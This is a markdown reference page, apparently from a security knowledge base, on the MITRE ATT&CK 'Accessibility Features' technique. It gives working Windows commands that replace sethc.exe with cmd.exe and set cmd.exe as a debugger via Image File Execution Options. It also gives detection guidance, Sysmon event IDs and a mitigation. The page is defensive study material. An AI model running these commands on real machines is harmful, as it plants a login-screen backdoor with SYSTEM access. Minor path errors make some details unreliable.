 # T1015 - Accessibility Features

## Attributes

**Tactic**: Persistence, Privilege escalation
**Effective Permissions**: System
**Data Sources**: Windows Registry, File monitoring, Process monitoring

## Description

The attacker will try to replace an accessibility executable such as **C:\Windows\System32\sethc.exe** or **C:\Windows\System32\sethc.exe** with **cmd.exe**. Once the accessibility executable has been replaced the attacker can now bring command prompt up regardless of user access by pressing **shift 5 times** or pressing **Win + U**.

## Tools to Perform Attack

Windows command line using the **move** or **copy** command.

### Examples

```shell
move /Y %windir%\System32\cmd.exe %windir%\System32\sethc.exe
copy /y %windir%\System32\cmd.exe %windir%\System32\sethc.exe
```

An attacker might also attach cmd.exe as a debugger to these tools by using the windows registry.

```shell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_executable}" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

### Other Accessibility Executables

|File|Description|
|-|-|
|**C:\Windows\System32\osk.exe**| On-Screen Keyboard |
|**C:\Windows\System32\Magnify.exe**| Magnifier |
|**C:\Windows\System32\Narrator.exe**| Narrator |
|**C:\Windows\System32\DisplaySwitch.exe**| Display Switcher |
|**C:\Windows\System32\AtBroker.exe**| App switcher |

## Detection

Compare the hashes of the accessibility executables. A powershell script is available in references.

Monitor the registry at
> HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options

### Example

> HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe

To search for this on kibana you would use the sysmon event ID 12/13/14 (Registry Events), with the context 
`HKLM\SOFTWARE\Microsoft\Windows\Windows NT\CurrentVersion\Image File Execution Options`

### Event IDs

Sysmon - Event ID 12 - Registry object added or deleted (rule: RegistryEvent)
`TargetObject: HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services`
Sysmon - Event ID 1 - Process Create (rule: ProcessCreate)
`ParentImage: utilman.exe /debug`

## Mitigation

- Ensure that Network Level Authentication is enabled so that RDP users can't access the login screen without being logged in.

## References

- [Mitre T1015](https://attack.mitre.org/techniques/T1015/)
- **Atomic Red Team Article**
  - [https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1015/T1015.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1015/T1015.md)
- **Sticky-Keys scanner powershell script**
  - [https://github.com/TrullJ/sticky-keys-scanner/blob/master/TestFor-StickyKey.ps1](https://github.com/TrullJ/sticky-keys-scanner/blob/master/TestFor-StickyKey.ps1)
- **How to configure Network Level Authentication for RDP**
  - [https://www.darkoperator.com/blog/2012/3/17/configuring-network-level-authentication-for-rdp.html](https://www.darkoperator.com/blog/2012/3/17/configuring-network-level-authentication-for-rdp.html)
